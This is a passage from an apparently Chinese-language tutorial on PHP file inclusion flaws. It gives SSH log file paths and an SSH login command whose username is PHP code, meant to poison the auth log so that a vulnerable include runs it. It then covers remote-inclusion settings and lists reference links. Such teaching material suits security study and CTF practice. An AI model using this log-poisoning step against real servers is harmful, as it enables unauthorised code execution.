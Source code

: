 
ssh日志默认路径：

```
/var/log/auth.log（默认情况下，所有用户都可读）
/var/log/secure
```

使用ssh客户端：
```
ssh '<?php phpinfo();?>'@IP
```

![](img/18.png)


### 远程文件包含

在PHP 5.2后，`php.ini`默认配置下：

```
allow_url_fopen=on
allow_url_include=off
```

此时除非网站管理员开启配置 否则无法远程文件包含。在某些CTF题中可能遇到。了解即可













**参考如下**

- [php代码审计之文件包含利用总结](https://links.jianshu.com/go?to=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2F-o7ML_8geIGGvrQBh9wf8g)
- [文件包含漏洞相关知识总结](https://links.jianshu.com/go?to=https%3A%2F%2Fblog.csdn.net%2Fqq_27710251%2Farticle%2Fdetails%2F108039876)
- [文件包含总结](https://links.jianshu.com/go?to=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2FCjvwADgUCuWYcd34SzHQMQ)
- [web安全-文件包含漏洞](https://links.jianshu.com/go?to=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2F8oFukNRcN7noS6XK_bfKCg)
- [代码安全之文件包含](https://links.jianshu.com/go?to=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2Fv1ovyOf9uPuUVgIkLJ7fBQ)
- [PHP文件包含小总结](https://links.jianshu.com/go?to=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2FIT6bbaG7zBbnrvcNPYr1_w)
- [php文件包含漏洞利用小结](https://www.jianshu.com/p/e3b6862b80ea)
